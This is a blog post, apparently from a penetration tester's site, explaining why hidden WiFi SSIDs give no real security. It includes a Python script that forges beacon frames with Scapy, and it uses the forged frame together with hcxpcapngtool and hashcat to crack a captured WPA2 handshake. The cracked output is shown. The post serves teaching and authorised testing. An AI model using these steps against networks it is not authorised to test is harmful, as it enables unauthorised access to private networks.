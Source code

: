 ```yaml
---
layout: post
title: "Hacking Hidden WiFi Networks"
date: 2025-06-14
author: TheXero
comments: true
categories: wifi
tags: [wifi, hidden-ssid, scapy, wireless-hacking, beacon-frame, hashcat, psk-cracking, pentesting]
description: "Explore the truth behind hidden SSIDs and learn how attackers can reveal and exploit non-broadcasting WiFi networks using beacon spoofing and Scapy."
keywords: hidden SSID, non-broadcasting WiFi, beacon spoofing, WPA2 cracking, wireless security, Scapy, hashcat, hcxpcapngtool
excerpt: "Think hidden SSIDs make your WiFi more secure? Think again. Discover how wireless attackers reveal, spoof, and crack non-broadcasting networks using Python, Scapy, and Hashcat."
image: /images/ssid_hidden.webp
thumbnail: /images/ssid_hidden.webp
---
```


## TL;DR

Hidden SSIDs don’t provide real security—they only hide your network name from the casual observer. In this post, we explore how attackers can reveal a hidden SSID by monitoring probe responses and forge beacon frames using Scapy to crack WPA2 passwords using tools like `hcxpcapngtool` and Hashcat. If you’re relying on “security by obscurity,” it’s time to rethink your wireless defenses.

---

I have received alot of queries recently, around hidden SSIDs, specifically if there is any security implications of it. After all, if no one can see my network, then no body can possibly target it.

Now, lets clear up a few bits first, a hidden SSID is not a recommended security practice. A hidden SSID is actually known as a non-broadcasting SSID, and provides a false sense of security. Lets explore why this is the case.

A standard WiFi network presents itself by sending out what is known as a Beacon frame.  This beacon frame is used to actively broadcast itself as being available to connect to. A hidden, or non-broadcasting SSID on the other hand, still sends the same beacon frames, but with an empty SSID field.

![Hidden SSID](/images/ssid_hidden.webp)

Now, the standard device might have trouble connecting to a hidden network for one of two reasons.
1. The modern day default, is that STA devices can be configured to search for networks, but typically do not reveal what network they are searching for. Instead, they rely on the response frame containing a known network.
2. Some older devices, cannot be configured to connect to a hidden network.

What ends up happening, is the device will send a probe request with a missing SSID, and the hidden network, will just ignore it. It will not respond to the request.

![Hidden Probe](/images/probe_hidden.webp)


To get around, this STA must be configured to ask for the specific network it is looking for, only then will the AP send a response containing the SSID.

![Probe with SSID](/images/probe_ssid.webp)


After receiving this valid response frame, the device then continues through the WiFi states and exchanges the authentication frames, and following with the association frames, again while having to disclose the SSID it is attempting to associated with.

![Association with SSID](/images/association_ssid.webp)


And so, despite some might believe using a hidden or non-broadcasting SSID is a security feature, really not. It is more security by obscurity and hassle than anything else, as the world is more security and privacy conscience than ever before, the non-broadcasting network name is still leaked during various stages.

But I hear you say, "what about during the 4-way handshake, the SSID is the salt. Without it, you cannot crack the password." To that, I would say, you are 100% correct. The way the PSK is generated is with both the password as well as the SSID. Lets break this down demonstrate this in human readable python code.


```
# Imports the required PBKDF2 module
from pbkdf2 import PBKDF2

# Defines the ESSID (used as the salt)
ESSID=WPA2

# Defines the password used
PASSWORD=password

# Generates the PMK 
PMK=PBKDF2(PASSWORD, ESSID, 4096).read(32).hex()

# Outputs the PMK hash to the screen
print(PMK)
```

More information on this exact process can be found in the RFC over at https://www.rfc-editor.org/rfc/rfc8018.txt 

So yes, in order to crack the password, you need the true SSID for network. 

Now, imagine this scenario, you are on a wireless pentest, you got the 4-way handshake, all is good, and you export the files. You go back to your office to put the hash onto your custom built escobar password cracking device. 

And it hits you, that dreaded error from hcxpcapngtool. Information: `no hashes written to hash files`. When you exported the selected frames, forgetting that the SSID is not broadcasted. You exported the full 4-way handshake with the standard beacon frame that did not contain the SSID. How can you crack the password now?

But you know the SSID. Beacon frames are not verified, so, lets forge one ourselves with Scapy, so we can crack this hash out.

You create the following python code:
```
#!/usr/bin/python3

# Import all parts to send a forged Beacon frame
from scapy.all import Dot11Beacon, Dot11Elt, Dot11, RadioTap, sendp

# Define the known SSID
SSID="WPA2"

# Create the broadcast Beacon frame
dot11 = Dot11(
        type=0,
        subtype=8, 
        addr1='ff:ff:ff:ff:ff:ff', 
        addr2='50:d4:f7:ff:ef:d8', 
        addr3='50:d4:f7:ff:ef:d8')
Beacon = Dot11Beacon()

# Set the SSID field
ESSID = Dot11Elt(ID='SSID', info=SSID, len=len(SSID))

# Construct the frame
frame = RadioTap()/dot11/Beacon/ESSID

# Send 10 forged frames
sendp(frame, iface='wlan0', count=10)
print("Sent Beacon.")
```

With Wireshark open listening capture the forged Beacon frame as shown below:
![Forged Beacon Frame](/images/forged_beacon.webp)

Now all you need to do in merge the forged beacon frame into the existing pcapng file and convert the hash to hashcat using hcxpcapngtool. And finally, its now time to crack the hash using hashcat
```# hashcat -m 22000 forged.22000 /usr/share/wordlists/rockyou.txt --quiet
8761551efb7b088761cdcf31de358919:50d4f7ffefd8:0025d38b6d09:WPA2:princess
```

I hope you all enjoyed this post. Let me know what you would like to see next.

Toby



### Ready to Level Up Your Wireless Hacking Skills?

If you found this post valuable and want to dive deeper into real-world WiFi attack techniques, rogue AP setups, handshake harvesting, and advanced cracking, check out my **WiFi Mastery** course.

Enrollment is open now at [https://training.thexero.co.uk/p/wifi-specialist](https://training.thexero.co.uk/p/wifi-specialist) and take your wireless skills to the next level.
